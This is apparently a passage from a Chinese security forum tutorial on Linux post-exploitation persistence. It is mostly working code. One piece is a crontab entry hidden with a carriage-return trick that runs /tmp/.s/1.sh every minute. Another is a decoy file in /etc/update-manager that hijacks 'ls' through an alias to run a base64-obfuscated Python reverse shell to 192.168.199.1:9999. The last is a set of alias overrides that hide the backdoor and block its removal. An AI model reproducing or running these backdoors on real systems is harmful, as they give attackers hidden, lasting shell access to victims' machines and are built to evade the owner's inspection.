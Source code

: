 ```php

```

`2.sh`

```php
(crontab -l;printf "* * * * * /tmp/.s/1.sh;\rno crontw_wab for `whoami` %100 c\n")|crontab -
```

```php
#上传脚本运行

mkdir /tmp/.s
cd /tmp/.s

chmod 777 1.sh
chmod 777 2.sh

./2.sh
```

效果：`crontab -l` ，必须 `cat -A` 或者 `vim`、`vi` 才能看到

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-9dffd7e9f2122545538f64b953180dbd297820f8.png)

持久化后门
-----

`/etc/update-manager/` 目录下

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-3b76ddc68308cc86d68f4d61b344ec7d95cbc72b.png)

新建迷惑性文件 `release-upgrade`

```php
touch release-upgrade
```

放入恶意命令

```php
alias ls='alerts(){ ls $* --color=auto;python3 -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xOTkuMSIsIDk5OTkpKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMCkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDEpCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAyKQogICAgICAgIHAgPSBzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp'\'')))";};alerts'

alias unalias='alerts(){ if [ $# != 0 ]; then if [ $* != "ls" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};alerts'

alias alias='alerts(){ alias "$@" | grep -v unalias | sed "s/alerts.*lambda.*/ls --color=auto'\''/";};alerts'
```
